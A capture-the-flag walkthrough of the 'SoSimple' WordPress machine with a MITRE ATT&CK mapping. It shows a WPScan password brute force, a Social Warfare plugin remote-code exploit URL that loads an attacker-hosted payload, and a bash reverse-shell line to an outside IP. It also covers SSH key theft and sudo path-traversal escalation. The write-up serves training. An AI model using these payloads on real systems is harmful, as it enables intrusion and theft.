 # SoSimple CTF - MITRE ATT&CK Mapping & Walkthrough

**Category:** Boot2Root\
**Difficulty:** Easy\
**Tools Used:** Nmap, Feroxbuster, WPScan, Python HTTP server, SSH

---

## 🔍 Summary

This challenge involves exploiting a vulnerable WordPress installation using a known Social Warfare plugin vulnerability, followed by privilege escalation through misconfigured sudo permissions and a root-owned script.

---

## 🧠 MITRE ATT&CK Mapping

| Phase                | Technique                               | ID        | Description                                                             |
| -------------------- | --------------------------------------- | --------- | ----------------------------------------------------------------------- |
| Reconnaissance       | Active Scanning                         | T1595.002 | Used `nmap` and `feroxbuster` to discover open ports and WordPress path |
| Credential Access    | Brute Force                             | T1110.001 | Used `wpscan` to brute-force WordPress login for user `max`             |
| Initial Access       | Exploit Public-Facing Application       | T1190     | Exploited Social Warfare plugin to run arbitrary PHP code               |
| Execution            | Command and Scripting Interpreter (PHP) | T1059.004 | Executed `system("bash -c ...")` via a crafted PHP payload              |
| Credential Access    | Unsecured Credentials                   | T1552.001 | Retrieved `id_rsa` SSH key from `/home/max/.ssh`                        |
| Persistence          | Valid Accounts                          | T1078     | Logged in via SSH using retrieved private key                           |
| Privilege Escalation | Abuse Elevation Control Mechanism       | T1548.003 | Abused `sudo -u steven` and path traversal                              |
| Privilege Escalation | Abuse Elevation Control Mechanism       | T1548.002 | Root-owned script executed via `sudo`                                   |
| Discovery            | Permission Groups Discovery             | T1069.001 | Enumerated sudo rights using `sudo -l`                                  |
| Collection           | Data from Local System                  | T1005     | Retrieved `user.txt` and `flag.txt` files                               |

---

## 🔧 Steps

### 1. Enumeration

```bash
ping 192.168.210.78
nmap -sC -sV -Pn 192.168.210.78
```

Discovered open ports:

- 22 (SSH)
- 80 (HTTP)

```bash
feroxbuster -u http://192.168.210.78 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Found: `/wordpress/`

---

### 2. WordPress Vulnerability Scanning

```bash
wpscan --url http://192.168.210.78/wordpress/ -e u
```

Users: `admin`, `max`

```bash
wpscan --url http://192.168.210.78/wordpress/ -U max -P /usr/share/wordlists/rockyou.txt
```

Credentials Found: `max:opensesame`

---

### 3. Exploitation - Social Warfare Plugin

```bash
echo "<pre>system('cat /etc/passwd')</pre>" > payload.txt
python3 -m http.server 80
```

Exploit URL:

```
http://192.168.210.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://<attacker-ip>/payload.txt
```

---

### 4. Reverse Shell (Bash)

```php
<pre>system("bash -c 'bash -i >& /dev/tcp/192.168.49.167/8080 0>&1'")</pre>
```

---

### 5. Privilege Escalation

SSH as max using private key:

```bash
ssh -i id_rsa max@192.168.210.78
```

Then:

```bash
sudo -u steven /usr/sbin/service ../../bin/bash
```

Abuse root script:

```bash
sudo -u root /opt/tools/server-health.sh
```

---

### 6. Flag Collection

```bash
cat /home/max/user.txt
cat /home/steven/user2.txt
cat /root/flag.txt
```

---

## 📍 MITRE ATT&CK Navigator

Layer file: `mitre-heatmap.json` (not included here yet)

Visualize at: [MITRE Navigator](https://mitre-attack.github.io/attack-navigator/)

---

## 🔗 References

- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/)
- [WPScan](https://wpscan.com/)
- [Exploit DB - Social Warfare](https://www.exploit-db.com/exploits/46794)
- [Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

---

**Author:** [Your Name or Alias]\
**Project:** CTF MITRE ATT&CK Mapping Series


